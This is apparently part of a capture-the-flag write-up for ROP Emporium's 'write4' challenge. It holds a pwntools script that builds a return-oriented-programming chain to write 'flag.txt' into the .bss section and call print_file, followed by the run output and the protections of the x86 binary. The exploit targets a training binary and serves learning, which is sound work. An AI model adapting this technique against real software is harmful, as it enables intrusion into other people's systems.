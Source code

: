 <br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

p = process("./write4")

print_file = 0x400510   # print_file_plt
pop_r14_r15 = 0x400690
mov_r14_r15 = 0x400628
pop_rdi = 0x400693
bss = 0x601038
flag = b"flag.txt"

pay = flat(
	{40:pop_r14_r15}, bss, flag,  # r14 = bss area, r15 = flag.txt
	mov_r14_r15,    # bss = 0x601038 = "flag.txt"
	pop_rdi, bss,
	print_file      # call print_file("flag.txt")
)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```

<br />
<br />

# x86

**Binary Protections:**
```yaml
[*] '/home/kali/pico/write432'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
```
